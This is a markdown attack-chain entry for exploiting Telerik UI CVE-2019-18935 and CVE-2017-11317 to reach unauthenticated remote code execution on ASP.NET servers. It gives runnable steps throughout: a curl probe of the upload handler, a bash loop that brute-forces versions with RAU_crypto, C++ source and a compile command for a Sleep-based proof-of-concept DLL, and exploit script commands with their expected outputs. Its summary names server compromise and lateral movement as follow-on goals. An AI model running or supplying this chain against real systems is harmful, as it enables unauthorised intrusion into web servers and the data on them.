

---
tags:
  - rce
  - deserialization
  - file-upload
  - telerik-ui
  - cve-2019-18935
  - cve-2017-11317
type: attack_chain
tools:
  - '[[tools/curl]]'
  - '[[tools/RAU_crypto]]'
  - '[[tools/CVE-2019-18935.py]]'
  - '[[tools/python3]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
  - Windows
  - .NET
submitted: true
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Verify-Telerik-Upload-Handler-Registration]]'
  - '[[procedures/Identify-Vulnerable-Telerik-Version]]'
  - '[[procedures/Compile-Sleep-DLL-Payload]]'
  - '[[procedures/Exploit-Telerik-Deserialization-for-RCE]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Exploitation for Client Execution]]'
updated_at: '2025-12-14T17:23:37.478Z'
description: >-
  Multi-stage exploitation of Telerik UI vulnerabilities allowing arbitrary file
  upload and deserialization leading to remote code execution on a .NET web
  server.
id: e59fa51f-060f-44f7-9d16-72593110aca4
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Exploitation for Client Execution]]'
---
# Remote Code Execution via Insecure Deserialization in Telerik UI (CVE-2019-18935)

Multi-stage attack chain exploiting insecure deserialization and arbitrary file upload in vulnerable Telerik UI versions to achieve remote code execution on an ASP.NET web server. The attack begins with verification of the vulnerable handler, identifies the exact version, prepares a proof-of-concept payload, and culminates in DLL upload and execution, potentially leading to server compromise, data exfiltration, privilege escalation, and lateral movement.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]
- [[tools/RAU_crypto]]
- [[tools/python3]]
- [[tools/CVE-2019-18935.py]]
- C++ compiler (e.g., Visual Studio for DLL compilation)

### Target Environment

- ASP.NET web application using Telerik UI versions vulnerable to CVE-2019-18935 or CVE-2017-11317 (pre-2017.3.1027 or similar)
- Exposed Telerik.Web.UI.WebResource.axd endpoint
- Windows server hosting the application
- Network access to the target URL over HTTPS

### Initial Access Requirements

- No credentials required (unauthenticated exploit)
- Direct internet access to the target web server
- No prior access needed beyond reachability

## Detailed Attack Procedures

### Step 1: Verify Upload Handler Registration
procedure: [[procedures/Verify-Telerik-Upload-Handler-Registration]]

**Objective**: Confirm the presence of the RadAsyncUpload handler, which is required for exploitation.

**Instructions**: Use [[commands/curl-verify-telerik-handler]] to send a GET request to the endpoint:

```bash
curl -sk https://target.com/app/Telerik.Web.UI.WebResource.axd?type=rau
```

**Expected Output**: JSON response indicating the handler is registered, such as {"message": "RadAsyncUpload handler is registered successfully, however, it may not be accessed directly."}.

**Success Indicators**:
- Handler registration confirmed
- No 404 or access denied response

### Step 2: Identify Vulnerable Telerik Version
procedure: [[procedures/Identify-Vulnerable-Telerik-Version]]

**Objective**: Brute-force known vulnerable versions to determine the exact Telerik UI version for tailored exploitation.

**Instructions**: First, create a test file using [[commands/echo-create-testfile]]:

```bash
echo 'test' > testfile.txt
```

Then, run the version brute-force loop with [[commands/for-loop-bruteforce-versions]] (assuming versions.txt lists vulnerable versions like 2017.2.621, etc.):

```bash
for VERSION in $(cat versions.txt); do echo -n "$VERSION: "; python3 RAU_crypto.py -P 'password' "$VERSION" testfile.txt https://target.com/app/Telerik.Web.UI.WebResource.axd?type=rau 2>/dev/null | grep fileInfo || echo; done
```

**Expected Output**: Output showing the vulnerable version with a successful fileInfo JSON, e.g., "2017.2.621: {"fileInfo":{"FileName":"RAU_crypto.bypass","ContentType":"text/html","ContentLength":5,"DateJson":"..."}}".

**Success Indicators**:
- Specific vulnerable version identified
- Successful upload response for at least one version

### Step 3: Compile Sleep DLL Payload
procedure: [[procedures/Compile-Sleep-DLL-Payload]]

**Objective**: Create a proof-of-concept DLL that demonstrates execution by inducing a detectable delay.

**Instructions**: Use a C++ compiler to build a DLL with Sleep(10000) in DllMain on DLL_PROCESS_ATTACH. Example code:

```cpp
#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        Sleep(10000);
        break;
    }
    return TRUE;
}
```

Compile with Visual Studio or cl.exe:

```bash
cl /LD sleep.cpp /Fesleep.dll
```

**Expected Output**: Compiled sleep_YYYYMMDDHHMMSS_amd64.dll file ready for upload.

**Success Indicators**:
- DLL compiles without errors
- File size indicates successful build

### Step 4: Exploit with DLL Upload and Execution
procedure: [[procedures/Exploit-Telerik-Deserialization-for-RCE]]

**Objective**: Upload the DLL via the vulnerable handler and trigger deserialization to execute it, confirming RCE.

**Instructions**: Attempt initial upload to App_Data using [[commands/python-cve-2019-18935-exploit-initial]] (replace placeholders with actual URL, version, file, path):

```bash
python3 CVE-2019-18935.py -u https://target.com/app/Telerik.Web.UI.WebResource.axd?type=rau -v 2017.2.621 -f 'App_Data' -p sleep_2020070207013954_amd64.dll
```

If blocked, adjust to TemporaryFiles using [[commands/python-cve-2019-18935-exploit-adjusted]]:

```bash
python3 CVE-2019-18935.py -u https://target.com/app/Telerik.Web.UI.WebResource.axd?type=rau -v 2017.2.621 -f 'TemporaryFiles' -p sleep.dll
```

**Expected Output**: Server response delayed by 10 seconds, indicating DLL execution via deserialization.

**Success Indicators**:
- 10-second response delay
- No immediate errors; payload loaded successfully

## Attack Chain Summary

### Key Achievements

1. Confirmed vulnerable Telerik handler presence
2. Identified exact vulnerable version for precise exploitation
3. Compiled and uploaded executable DLL payload
4. Achieved RCE through deserialization, enabling further compromise

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Exploitation for Client Execution]] Exploitation for Client Execution

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution

---

*Last updated: 2023-10-01T00:00:00Z*
